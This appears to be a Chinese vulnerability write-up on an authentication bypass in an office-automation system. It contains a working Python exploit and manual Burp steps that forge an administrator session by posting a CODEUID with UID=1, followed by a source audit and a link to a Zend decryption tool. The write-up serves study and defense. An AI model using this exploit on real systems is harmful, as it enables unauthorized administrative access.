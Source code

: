 ```python
def getV11Session(url):
    checkUrl = url+'/general/login_code.php' 
    try:
        headers["User-Agent"] = choice(USER_AGENTS) #随机挑选列表中的UserAgent
        res = requests.get(checkUrl,headers=headers) #通过组合checkUrl和UserAgent，发起一个get请求
        resText = str(res.text).split('{') #分解请求的返回包，以{为界限
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '') #获取返回包中的一串codeuid
        getSessUrl = url+'/logincheck_code.php'
        #通过得到的的codeuid和uid，发送一个post请求到logincheck_code.php
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']#该POST请求返回了设置cookie的请求
        headers["User-Agent"] = choice(USER_AGENTS) #重新选择一个UserAgent
        headers["Cookie"] = tmp_cookie #设置新的cookie
        #最后通过拼接UserAgent以及Cookie发送一个get请求到general/index.php
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:# 返回包如果不包含“用户未登录”这样的字眼表示登录成功
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('[-]Something Wrong With '+url)


```

接下来，演示一下手动获取cookie，并实现任意用户登录
burp拦截打开，直接访问/general/login_code.php，拦截返回包，在返回包中可以看到返回的codeuid，保存起来，后面要用
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206130617360_586178304.png)
接着访问/logincheck_code.php，删去Cookie，data部分修改为CODEUID={xxx}&UID=1，这里codeuid要填写上一步获取到的codeuid，如下图所示：

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206131513403_553316630.png)
如果请求参数正确，返回包里的msg字段为空，否则会提示“参数不正确”，此时保存Set-Cookie里面的值，后面要用
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206131334282_1214772437.png)
最后访问/general/index.php，修改Cookie为上一步Set-Cookie的值1rp2qql0p3uloi87o7ogua6g32，点击forward获取到返回包，可以后台中包含的字眼了，如果请求失败，会返回“用户未登录”

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206132533523_740749525.png)
放出这条包，跳转到浏览器就可以直接进入后台了
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206133401538_814565016.png)



再通过源码了解下引起漏洞的原因是什么，所在php文件是logincheck_code.php，根据访问地址，可知logincheck_code.php在根目录下，找到该文件打开
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206201705889_1081135224.png)
直接打开文件看源码，乱码，显然是加密，通过文件头的标识Zend可知，加密方式为Zend加密
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206201807907_780572501.png)
不过Zend加密已经有相关的解密的工具，这里提供下载：
https://pan.baidu.com/s/1OdV5YxmNarmCVMZWYy4AuQ 
提取码：hw7o 
工具使用方法也是傻瓜式的，很容易使用，这里就不进行演示了。
解密后可以看到文件内部的代码了，下面进行代码审计
可以看到logincheck_code.php的UID参数是可控的
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206222103129_104424784.png)
最重要的部分如下，系统通过获取到UID，再存储到session中，上面可以通过POST参数控制UID输入，有了可控输入和缓存，这就满足了用户伪造的两个重要的条件
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206222425782_573205089.png)
那么请求中为什么还需要CODEUID参数呢？翻一下文件可以看到有个if判断，如果login_codeuid为空就会提示“参数错误！”，而login_codeuid来自于get_cache，也就是说要获取CODEUID需要先设置cache，这样才能获得CODEUID。
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201206224536532_246290381.png)